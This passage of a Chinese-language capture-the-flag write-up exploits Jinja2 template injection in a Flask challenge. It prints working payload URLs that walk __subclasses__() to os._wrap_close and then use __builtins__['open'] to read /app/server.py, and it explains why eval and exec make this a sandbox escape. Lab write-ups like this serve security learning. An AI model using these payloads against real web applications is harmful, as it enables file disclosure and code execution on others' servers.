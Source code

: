 定位到 `os_wrap_close` 这个类, 找到下标是 127:

此时 payload:
```python
http://4f84ad86-863a-43f5-84af-1ddcf93711e1.node5.buuoj.cn:81/?password={{%27%27.__class__.__base__.__subclasses__()[127].__init__.__globals__}}
```

![2-4.png](2-4.png)

这里显示有一个 flag, 很可惜提交显示错误, 应该是个兔子洞; 寻找其他利用, 这里考虑用: ``__builtins__``

> `__builtins__` 是一个包含内置函数的模块（或字典），其中就包括 `open` 函数。通过访问 `__builtins__`，我们可以获得执行文件操作的能力。在沙箱逃逸或模板注入中，我们经常需要利用现有的类来获取 `__builtins__`，因为 `__builtins__` 提供了很多危险的函数（如 `open`、`eval`、`exec` 等），这些函数可以帮助我们读取文件或执行命令。

构造payload:
```python
http://4f84ad86-863a-43f5-84af-1ddcf93711e1.node5.buuoj.cn:81/?password={{''.__class__.__base__.__subclasses__()[127].__init__.__globals__['__builtins__']['open']("/app/server.py").read()}}
```

![2-5.png](2-5.png)

> Flask 默认结构：
> 主程序常命名为 `server.py` 或 `app.py`, 在 `/app` 目录下(docker 部署)
